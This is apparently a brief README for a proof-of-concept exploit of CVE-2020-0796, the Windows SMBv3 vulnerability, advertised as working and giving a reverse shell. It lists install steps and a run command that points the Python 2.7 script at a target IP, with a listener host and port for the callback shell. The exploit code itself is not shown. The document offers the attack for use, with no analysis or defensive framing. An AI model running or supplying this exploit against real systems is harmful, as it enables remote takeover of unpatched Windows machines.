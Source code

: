# CVE-2020-0796
Working Exploit PoC (CVE-2020-0796) - Reverse Bind Shell

Tested using Python2.7

# To Install:

pip install -r requirements.txt


# To Run:

python CVE-2020-0796-POC.py 10.16.1.24 -lhost 10.1.1.1 -lport 4444
